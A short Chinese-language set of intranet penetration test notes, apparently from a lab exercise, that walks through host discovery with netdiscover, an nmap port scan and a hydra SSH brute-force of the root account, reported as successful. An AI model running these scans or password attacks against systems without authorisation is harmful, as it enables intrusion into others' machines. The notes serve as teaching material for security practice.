 # Intranet Penetration Test Notes

## 🌐 1. 内网主机发现

使用 `netdiscover` 快速发现当前网络中的活动主机：

```bash
netdiscover -i eth0 -r 192.168.54.0/24
```
![扫描内网主机](../img/扫描内网主机.png)
结果中显示主机 IP 和对应 MAC 地址，标记可能目标主机。

---

## 🔍 2. 指定主机端口扫描

选择发现的一台主机（如 `192.168.54.9`），使用 `nmap` 扫描其开放端口和服务：

```bash
nmap -sS -sV -Pn 192.168.54.9
```

参数说明：

* `-sS`: TCP SYN 扫描（半连接）
* `-sV`: 探测服务版本
* `-Pn`: 跳过 ping，适用于被禁 ping 的主机

发现目标主机开放 SSH (22)，HTTP (80) 等端口。

---

## 🔐 3. SSH 爆破实验

对开放的 SSH 端口进行弱口令尝试：

```bash
hydra -l root -P rockyou.txt ssh://192.168.54.9
```

成功获取 root 用户的登录凭据。

---

（后续模块继续添加...）
